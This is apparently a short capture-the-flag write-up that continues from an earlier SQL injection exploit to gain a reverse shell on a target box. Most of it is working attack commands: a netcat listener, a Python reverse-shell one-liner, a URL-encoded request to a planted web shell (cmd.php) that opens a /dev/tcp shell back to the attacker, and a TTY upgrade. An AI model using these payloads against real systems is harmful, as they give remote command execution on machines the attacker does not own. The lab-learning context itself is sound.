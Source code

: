 # bonus - reverse shell execution

We continue from the point in Writeup 1 where the SQL injection is performed. From our pentesting VM, we start a Netcat listener:
``` shell
nc -nvlp 4242
```

As for the shell execution, we opt for a `python2` syntax:
``` shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

This snippet is inserted into the query using URL encoding:
``` http
https://IP/forum/templates_c/cmd.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2FIP%2F4242%200%3E%261
```

The shell is not fully interactive, so we can make it a bit better using `python`:
``` python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

From there, we proceed with the standard enumeration as outlined in Writeup 1—home, lookatme, password.
